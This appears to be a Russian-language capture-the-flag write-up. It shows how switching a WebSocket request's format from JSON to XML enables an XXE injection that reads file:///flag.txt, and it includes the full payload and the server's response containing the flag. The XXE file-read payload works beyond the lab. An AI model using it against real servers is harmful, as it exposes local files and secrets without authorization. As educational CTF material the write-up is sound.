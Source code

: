 Рассмотрим исходный код страницы. Основной скрипт лежит в файле script.js.
При нажатии на кнопку "Calculate!" отправляется запрос по вебсокету на сервер, запрос шифруется с помощью AES.
В функции calculate мы можем увидеть формат запроса:
```
{format: 'json', data: {countries: countries (array), startdate: startDate (string), enddate: endDate (string), resttype: restType (int)}}
```
Заметим, что мы отправляем формат, в который кодируются данные, по стандарту это JSON. Изменим его на XML и проверим, обрабатывает ли сервер запросы такого формата.

Используя инструменты разработчика Chrome, перепишем обработчик событий, который принимает сообщения от вебсокета следующим образом:
```
socket.addEventListener('message', (event) => {
  if (event.data == 'connected') return;
  let data = event.data;
  console.log(data)
});
```
для того, чтобы сразу можно было видеть данные пришедшие с сервера.

В функции calculate заменим format: 'json' на format: 'xml'.
Теперь нажав на кнопку "Calculate!", получаем в консоли ошибку с сервера:
```
{"error":"Error: XML must be a string or buffer\n    at Object.module.exports.fromXml ...
```
Это показывает, что сервер умеет обрабатывать XML, просто мы ему отправили не XML, из-за этого и возникла ошибка.

В том словаре, который мы отправляем, содержатся только ключи format и data. Этот словарь мы отправляем в формате JSON. Из этого можно понять, что сервер при обработке
сначала получит словарь с помощью JSON, посмотрим на значение под ключом format, и на основании этого будет раскодировать data. Таким образом, в data мы можем положить
наши данные в xml формате. Воспользуемся онлайн конвертером JSON в XML(https://www.convertjson.com/json-to-xml.htm), преобразуем данные, которые мы обычно отправляем в json, в xml,
и отправим это на сервер, чтобы проверить, действительно ли мы можем в data положить данные в xml формате. Создадим такой JSON для примера:
```
{"countries": ["1", "2", "3"], startdate: "1", enddate: "1", resttype: 1}
```
(также мы заранее проверили, что отправка таких данных в JSON не приводит к ошибке, и все верно обрабатывается). С помощью онлайн-конвертера получили следующий XML:
```
<?xml version="1.0" encoding="UTF-8" ?>
<root>
  <countries>1</countries>
  <countries>2</countries>
  <countries>3</countries>
  <startdate>1</startdate>
  <enddate>1</enddate>
  <resttype>1</resttype>
</root>
```
Изменим в script.js 83 строку на ```let data = JSON.stringify(encrypted({format: 'xml', data: \`<?xml version="1.0" encoding="UTF-8" ?><data><countries>1</countries><countries>2</countries><countries>3</countries><startdate>1</startdate><enddate>1</enddate><resttype>1</resttype></data>\`}));```

(также заменяем <root> на <data>, потому что наши данные хранятся под ключом data)

В консоли видем зашифрованный ответ, используя функцию decrypt расшифруем его, и получаем:
```
{"format":"xml","data":"<?xml version=\\"1.0\\" encoding=\\"UTF-8\\"?>\\n<data>\\n  <countries>1</countries>\\n  <countries>2</countries>\\n  <countries>3</countries>\\n  <startdate>1</startdate>\\n  <enddate>1</enddate>\\n  <resttype>1</resttype>\\n  <price>0</price>\\n</data>\\n"}
```

Это значит что сервер верно обрабатывает XML.
Теперь, так как мы можем вставлять любой XML, воспользуемся уязвимостью xxe.

Добавим в наш XML строчку: 
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
```
это нам позволит прочитать содержимое файла flag.txt, и затем, если мы где-то
в xml вставим '&xxe;', то оно автоматически заменится на содержимое файла.

Так как сервер нам отправляет все данные что мы ему прислали в ответ, поместим '&xxe;' в первый элемент списка countries.
Итоговый XML выглядит вот так.

```
<?xml version="1.0" encoding="UTF-8" ?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]><data><countries>&xxe;</countries><countries>2</countries><countries>3</countries><startdate>1</startdate><enddate>1</enddate><resttype>1</resttype></data>
```

Получаем ответ от сервера:
```
{"format":"xml","data":"<?xml version=\\"1.0\\" encoding=\\"UTF-8\\"?>\\n<!DOCTYPE foo [\\n<!ENTITY xxe SYSTEM \\"file:///flag.txt\\">\\n]>\\n<data>\\n  <countries>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\\n</countries>\\n  <countries>2</countries>\\n  <countries>3</countries>\\n  <startdate>1</startdate>\\n  <enddate>1</enddate>\\n  <resttype>1</resttype>\\n  <price>0</price>\\n</data>\\n"}
```

В первом элементе списка countries лежит флаг.